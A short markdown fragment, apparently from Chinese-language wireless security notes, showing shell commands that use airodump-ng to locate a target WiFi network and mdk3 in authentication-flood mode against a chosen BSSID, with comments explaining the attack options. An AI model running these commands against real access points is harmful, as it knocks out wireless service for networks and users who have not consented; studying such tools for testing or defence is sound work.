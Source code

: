 ```shell
# 先找到一个目标WiFi
airodump-ng wlan0mon
# 参数：
# -a <ap_mac>  测试指定BSSID
# -m  使用有效数据库中的客户端mac地址
# -c  对应 -a ，不检查是否测试成功
# -i <ap_mac>  对指定BSSID进行智能攻击
# -s <pps>  速率，默认50
mdk3 wlan0mon a -a [目标WiFi的BSSID]
```

![](resources/2023-07-13-01-13-19.png)